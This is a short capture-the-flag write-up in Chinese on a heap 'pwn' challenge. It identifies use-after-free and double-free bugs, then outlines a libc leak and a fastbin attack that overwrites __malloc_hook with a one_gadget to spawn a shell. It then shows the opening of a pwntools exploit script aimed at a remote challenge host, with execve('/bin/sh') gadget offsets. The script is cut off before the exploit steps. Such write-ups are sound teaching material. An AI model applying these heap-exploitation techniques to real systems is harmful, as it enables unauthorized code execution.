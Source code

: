3. show函数，通过chunklist调用，可能有UAF![5ca32f9f19cd6](https://i.loli.net/2019/04/02/5ca32f9f19cd6.png)

4. del函数，UAF，double free

![5ca32fa412bc7](https://i.loli.net/2019/04/02/5ca32fa412bc7.png)





可以malloc任意大小，UAF可以leak出libc，利用fastbin attack，2free配合找一个MALLOC_HOOK上方字节错位的地方，实现Arbitrary Alloc，然后覆盖MALLOC_HOOK为ONE_GADGET。再malloc一次拿到shell。



```python
#!/usr/bin/env python
# -*- coding=utf8 -*-


# Author: le3d1ng
# Created Time : 2019年04月02日 星期二 17时15分37秒
# File Name: exp.py

# Description:

from pwn import *

#io = process('./pwn3')
io = remote('101.71.29.5',10002)
#context.log_level = 'debug'
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
'''LOCAL
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
'''REMOTE
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
context.terminal = ['terminator' , '-x' , 'sh' , '-c']
libcoffset = 0x3c4b78
```